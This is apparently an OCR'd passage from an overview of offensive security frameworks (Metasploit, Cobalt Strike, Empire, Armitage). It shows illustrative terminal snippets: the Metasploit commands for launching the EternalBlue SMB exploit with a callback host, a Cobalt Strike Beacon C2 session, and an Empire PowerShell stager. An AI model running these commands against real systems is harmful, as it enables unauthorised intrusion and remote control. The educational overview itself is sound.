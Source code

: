 One common attack using Metasploit is the MS17-010 (EternalBlue) exploit, which targets a Windows SMB vulnerability. Here's an example of what the terminal output might look like when running this exploit:

```shell
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.101
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
```



**Cobalt Strike**

Cobalt Strike is a commercial penetration testing tool that offers a wide range of features, including post-exploitation, social engineering, and command and control (C2) capabilities. It enables security professionals to simulate advanced attack scenarios, manage compromised systems, and evade detection.

An example of a Cobalt Strike attack is using its Beacon payload to establish a C2 connection with a compromised system. Here's an illustration of the terminal output:

```shell
beacon> ps
[*] Tasked beacon to list running processes.
[+] host called home, sent: 185300 bytes
[+] received output:
   PID   PPID  Name                       Arch  Session
   ---   ----  ----                       ----  -------
   464   460   explorer.exe               x64   1
   496   480   svchost.exe                x64   1
   1004  976   Beacon32.exe               x86   1
```



**Empire**

Empire is an open-source post-exploitation framework that focuses on agent-based post-exploitation. It provides a set of modules for maintaining persistence, lateral movement, and data exfiltration within compromised systems. Empire is designed for red teaming and adversary simulation.

An example of an Empire attack involves using a PowerShell stager to deliver a malicious payload. Here's an illustration of the terminal output:

```shell
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
[*] Stager output written to launcher.bat
```



**Armitage**

Armitage is a graphical user interface (GUI) for Metasploit, making it more accessible for security professionals who prefer a visual interface. It streamlines the process of conducting penetration tests and managing Metasploit exploits.
